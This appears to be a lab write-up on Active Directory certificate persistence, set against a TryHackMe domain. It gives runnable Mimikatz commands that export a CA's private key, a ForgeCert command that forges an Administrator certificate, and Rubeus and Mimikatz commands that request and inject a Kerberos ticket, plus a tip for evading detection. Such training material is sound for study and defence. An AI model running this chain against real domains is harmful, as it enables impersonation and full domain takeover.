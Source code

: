 We could simply steal the private key of the root CA's certificate to generate our own certificates whenever we feel like it.<br>
>what is the Certificate Authority ?

A Certificate Authority (CA) is an entity that issues and manages digital certificates used to verify identities and secure communications within a network, such as in Active Directory (AD). It ensures that certificates are valid, trusted, and used for secure authentication and encryption across the network.<br>

**Extracting the Private Key**

The private key of the CA is stored on the CA server itself. To extract the private key from a Certificate Authority (CA) in an environment using Active Directory Certificate Services (AD CS), you can use tools like Mimikatz. The private key is stored on the CA server and if this key is not protected by a Hardware Security Module (HSM), Mimikatz can be used to extract the CA certificate and its private key. After gaining access to the CA server via SSH, you can load Mimikatz to perform this extraction.
<br>
To dump the DC certs and the private keys:
```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # crypto::capi
Local CryptoAPI RSA CSP patched
Local CryptoAPI DSS CSP patched

mimikatz # crypto::cng
"KeyIso" service patched
mimikatz # crypto::certificates /systemstore:local_machine /export
```
![Screenshot from 2024-09-06 20-38-17](https://github.com/user-attachments/assets/0a13a442-3515-45b4-8242-24d7836c642c)

The **za-THMDC-CA.pfx** certificate is the one we are particularly interested in, for example. In order to export the private key, a password must be used to encrypt the certificate. By default, Mimikatz assigns the password of```mimikatz```.<br>

**Generating our own Certificates**

Now that we have the private key and root CA certificate, we can use the ```ForgeCert``` tool to forge a Client Authenticate certificate for any user we want. Let's use ForgeCert to generate a new certificate: 

```
ForgeCert.exe --CaCertPath za-THMDC-CA.pfx --CaCertPassword mimikatz --Subject CN=User --SubjectAltName Administrator@za.tryhackme.loc --NewCertPath fullAdmin.pfx --NewCertPassword Password123 
```
> CaCertPath - The path to our exported CA certificate.<br>
> CaCertPassword - The password used to encrypt the certificate. By default, Mimikatz assigns the password of ```mimikatz```.<br>
> Subject - The subject or common name of the certificate. This does not really matter in the context of what we will be using the certificate for.<br>
> SubjectAltName - This is the User Principal Name (UPN) of the account we want to impersonate with this certificate. It has to be a legitimate user.<br>
> NewCertPath - The path to where ForgeCert will store the generated certificate.<br>
> NewCertPassword - Since the certificate will require the private key exported for authentication purposes, we must set a new password used to encrypt it.<br>

We can use ```Rubeus``` to request a TGT using the certificate to verify that the certificate is trusted. We will use the following command:

```
Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:<path to certificate> /password:<certificate file password> /outfile:Admin.kirbi /domain:<DomainName> /dc:<IP of domain controller>
```
Let's break down the parameters:

  >  /user - This specifies the user that we will impersonate and has to match the UPN for the certificate we generated.<br>
  >  /enctype -This specifies the encryption type for the ticket. Setting this is important for evasion, since the default encryption algorithm is weak, which would result in an overpass-the-hash alert<br>
  >  /certificate - Path to the certificate we have generated<br>
  >  /password - The password for our certificate file<br>
  >  /outfile - The file where our TGT will be output to<br>
  >  /domain - The FQDN of the domain we are currently attacking<br>
  >  /dc - The IP of the domain controller which we are requesting the TGT from. Usually, it is best to select a DC that has a CA service running<br>



Now we can use Mimikatz to load the TGT and authenticate to THMDC:
```
mimikatz # kerberos::ptt Admin.kirbi
```








